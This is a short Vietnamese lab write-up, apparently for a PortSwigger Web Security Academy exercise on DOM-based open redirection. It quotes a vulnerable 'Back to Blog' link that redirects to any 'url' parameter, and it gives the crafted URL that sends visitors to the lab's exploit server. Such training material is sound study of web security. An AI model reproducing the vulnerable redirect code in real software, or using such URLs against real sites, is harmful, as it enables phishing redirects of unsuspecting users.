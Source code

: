 ## DOM-based open redirection

> Ở phần description lab có nói web này còn tồn tại lỗ hổng DOM-based dạng open redirect, ta phải chuyển hướng sao cho tới exploit server

Khi bấm vào 1 post nào nó check source thì chúng ta sẽ thấy 1 thẻ a dùng để chuyển hướng ngược về post trước (nếu ta đã comment) hoặc là home dựa vào location đang đứng.

```html
<a href='#' onclick='returnUrl = /url=(https?:\/\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = "/"'>Back to Blog</a>
```

Vì thế ta chỉ cần chèn thêm trên link thêm 1 param là url (trên cái returnUrl của function) là đường link của exploit server là đã redirect được rồi.

```markdown
https://ac791f1a1f6e73d28056ca7d00140090.web-security-academy.net/post?postId=5&url=https://exploit-ac8a1f141fbf73b4808ecad301920020.web-security-academy.net/exploit
```

![](/imgs/DOM-BASED-VULNERABILITIES/11.png?raw=true)

### Tài liệu tham khảo
- [DOM-based Vuln: ](https://portswigger.net/web-security/dom-based)